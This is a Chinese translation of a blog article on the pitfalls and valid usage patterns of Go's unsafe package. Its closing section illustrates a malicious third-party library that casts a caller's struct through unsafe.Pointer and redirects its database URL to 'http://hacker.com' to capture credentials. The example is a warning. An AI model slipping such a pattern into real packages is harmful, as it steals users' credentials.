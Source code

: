 首发于：https://studygolang.com/articles/35043

# unsafe 真就不安全吗？- part2

在[上篇文章](https://studygolang.com/articles/28433)中，我已经谈到了 unsafe 包的初衷和功能。但还有一件事情没有解释。

## type pointer

此类型表示指向任意类型的指针，这意味着，unsafe.Pointer 可以转换为任何类型或 uintptr 的指针值。你可能会想: 有什么限制吗？没有，是的... 你可以转换 Pointer 为任何你想要的，但你必须处理可能的后果。为了减少可能出现的问题，你可以使用某些模式：

> “*以下涉及 Pointer 的模式是有效的。不使用这些模式的代码今天可能无效，或者将来可能无效。即使是下面这些有效的模式，也带有重要的警告。*” —— golang.org

你也可以使用 go vet，但是它不能解决所有的问题。因此，我建议你遵循这些模式，因为这是减少错误的唯一方法。

## 快速拷贝

如果两种类型的内存布局相同，为了避免内存分配，你可以通过以下机制将类型 `*T1` 的指针转换为类型 `*T2` 的指针，将类型 T1 的值复制到类型 T2 的变量中：

```go
ptrT1 := &T1{}
ptrT2 = (*T2)(unsafe.Pointer(ptrT1))
```

但是要小心，这种转换是有代价的，现在两个指针指向同一个内存地址，所以每个指针的改变也会反应到另一个指针上。可以通过[这里验证](https://play.studygolang.com/p/bZGEHrHp4LM)。

## unsafe.Pointer != uintptr

我已经提到过，指针可以转换为 uintptr 并转回来，但是转回来是有一些特殊的条件限制的。unsafe.Pointer 是一个真正的指针，它不仅保持内存地址，包括动态链接的地址，但 uintptr 只是一个数字，因此它更小，但有代价。如果你转换 unsafe.Pointer 为 uintptr 后，指针不再引用指向的变量，而且在将 uintptr 转换回 unsafe.Pointer 变量之前，垃圾收集器可以轻松地回收该内存。至少有两种解决方案可以避免此问题。第一个更复杂的，但也真正显示了，为了使用 unsafe 包，你必须牺牲什么。有一个特殊的函数，runtime.KeepAlive 可以避免 GC 不恰当的回收。它听起来很复杂，而且使用起来更加复杂。这里为你准备了[实际例子](https://play.studygolang.com/p/L7rgheqNo9w)。

## 指针算法

还有另一种方法避免 GC 不恰当回收。即在同一个语句中做以下事情：将 unsafe.Poniter 转为 uintptr，以及将 uintptr 做其他运算，最后转回 unsafe.Pointer 。因为 uintptr 只是一个数字，我们可以做所有特殊的算术运算，比如加法或减法。我们如何使用它？指针算法通过了解内存布局和算术运算，可以得到任何需要的数据。让我们来看看下一个例子：

```go
x := [4]byte{10, 11, 12, 13}
elPtr := unsafe.Pointer(uintptr(unsafe.Pointer(&x[0])) + 3*unsafe.Sizeof(x[0]))
```

有了指向字节数组第一个元素的指针，我们就可以在不使用索引的情况下获得最后一个元素。如果将指针移动三个字节，我们就可以得到最后一个元素。让我可视化展示：

![Pointer arithmetic](https://www.dnahurnyi.com/img/Pointer-arithmetic.png)

因此，在一个表达式中执行所有转换可以省去 GC 清理的麻烦。上述三种模式说明了如何在不同情况下正确地转换 unsafe.Pointer 为其他数据类型的指针。

## Syscalls

在包 syscall 中，有一个函数 syscall.Syscall 接收 uintptr 格式的指针的系统调用，我们可以通过 unsafe.Pointer 得到 uintptr。重要的是，你必须进行正确的转换：

```go
a := &A{1}
b := &A{2}
syscall.Syscall(0, uintptr(unsafe.Pointer(a)), uintptr(unsafe.Pointer(b))) // Right

aPtr := uintptr(unsafe.Pointer(a)
bPtr := uintptr(unsafe.Pointer(b)
syscall.Syscall(0, aPtr, bPtr) // Wrong
```

## reflect.Value.Pointer 和 reflect.Value.UnsafeAddr

reflect 包中有两个方法: Pointer 和 UnsafeAddr，它们返回 uintptr，因此我们应该立即将结果转换为 unsafe.Pointer，因为我们需要时刻“提防”我们的 GC 朋友：

```go
p1 := (*int)(unsafe.Pointer(reflect.ValueOf(new(int)).Pointer())) // Right

ptr := reflect.ValueOf(new(int)).Pointer() // Wrong
p2 := (*int)(unsafe.Pointer(ptr) // Wrong
```

## reflect.SliceHeader 和 reflect.StringHeader

reflect 包中有两种类型: SliceHeader 和 StringHeader，它们都具有字段 Data uintptr。正如你所记得的那样，uintptr 通常与 unsafe.Pointer 联系在一起，见下面代码：

```go
var s string
hdr := (*reflect.StringHeader)(unsafe.Pointer(&s))
hdr.Data = uintptr(unsafe.Pointer(p))
hdr.Len = n
```

---

以上就是所有可能关于 unsafe.Pointer 使用的模式，所有不遵循这些模式或从这些模式派生的情况很可能是无效的。但是 unsafe 包不仅在代码中而且在代码之外都会带来问题。让我们回顾一下其中的几个。

## 兼容性

Go 有[兼容性指南](https://docs.studygolang.com/doc/go1compat)，保证版本更新的兼容性。简单地说，它保证你的代码在升级后仍然可以工作，但是不能保证你已经导入了 unsafe 的包。unsafe 包的使用可能会破坏你的代码的每个版本: major，minor，甚至安全修补程序。所以在导入之前，试着想一下这样一种情况：你的客户问你为什么我们不能通过升级 Go 版本来消除漏洞，或者为什么在更新之后什么都不能工作了。

## 不同的行为

你知道所有的 Go 数据类型吗？你听说过 int 吗？如果我们已经有 int32 和 int64，为什么还有 int？实际上 int 类型是根据计算机体系结构（x32 或 x64）将其转换为 int32 或 int64 类型。所以请记住，unsafe 的函数结果和内存布局在不同的架构上可能是不同的，例如：

```go
var s string
unsafe.Sizeof(s) // x32 上是 8，而 x64 上是 16
```

## 社区的情况

我想知道：如果这个包如此危险，有多少冒险者在使用它。我已经在 [GitHub](https://github.com/search?l=Go&q=unsafe&type=Repositories) 上搜索过了。与 [crypto](https://github.com/search?l=Go&q=crypto&type=Repositories) 或 [math](https://github.com/search?l=Go&q=math&type=Repositories) 相比，数量并不多。其中超过一半的内容是关于使用 unsafe 的方法的技巧和可能的偏差，而不是一些真正的用法。

Rust 社区有一个事件：一个叫 Nikolay Kim 的，他是 [activex](https://github.com/actix) 项目的创始人，在社区的巨大压力下，将 activex 库变成了私有。后来再公开该仓库时，将其中一个贡献者提升为所有者，然后[离开](https://github.com/actix/actix-web/issues/1289)。所有这一切的发生都是因为一些人认为使用了 unsafe 包，这太危险不应该使用。我知道 Go 社区目前没有这种情况，而且 Go 社区里也没有唯一正确的观点。我想要提醒的是，如果你在代码中导入了 unsafe 的代码，请做好准备，社区可能会。。。

## 爱好者

有很多人和很多想法，[这篇文章](https://nullprogram.com/blog/2019/06/30/)展示了使用 int 和使用指针操作的新方法，简而言之，它看起来像这样：

```go
var foo int
fooslice = (*[1]int)(unsafe.Pointer(&foo))[:]
```

对此，我不发表意见，我只会提到，你应该注意导入 unsafe 可能的问题。

## 最后

我个人试着去思考 unsafe 带来问题的可能性，这里有一个使用 unsafe 的例子。假设你导入了一些执行某些有用操作的第三方包，比如将 DB 客户端对象和日志记录器包装到一个实体中，以使所有操作的日志记录更加容易，或者像我的例子中那样，导入一些返回对象的动物的函数...

```go
package main

import (
	"fmt"
	"third-party/safelib"
)

func main() {
	a := safelib.NewA("https://google.com", "1234") // Url and password
	fmt.Println("My spiritual animal is: ", safelib.DoSomeHipsterMagic(a))
	a.Show()
}
```

在这个函数中，我们将 interface{} 断言为一些已知类型，并快速复制到一些 `Malicious` 类型，这些 `Malicious` 类型具有获取和设置私有字段的方法，如 url 和密码。所以这个包可以提取出所有有趣的数据，甚至替换 url，这样下次你尝试连接到 DB 时，有人会获得你的凭证。

```go
func DoSomeHipsterMagic(any interface{}) string {
	if a, ok := any.(*A); ok {
		mal := (*Malicious)(unsafe.Pointer(a))
		mal.setURL("http://hacker.com")
	}

	return "Cool green dragon, arrh 🐉"
}
```

最后的最后，切记所有的技术都有一定的代价，但是 unsafe 技术尤其“昂贵”，所以我的建议是在使用它之前要三思。

---

via: https://www.dnahurnyi.com/is-unsafe-...unsafe-pt.-2/

作者：[Denys Nahurnyi](https://www.dnahurnyi.com/)
译者：[polaris1119](https://github.com/polaris1119)
校对：[unknwon](https://github.com/unknwon)

本文由 [GCTT](https://github.com/studygolang/GCTT) 原创编译，[Go 中文网](https://studygolang.com/) 荣誉推出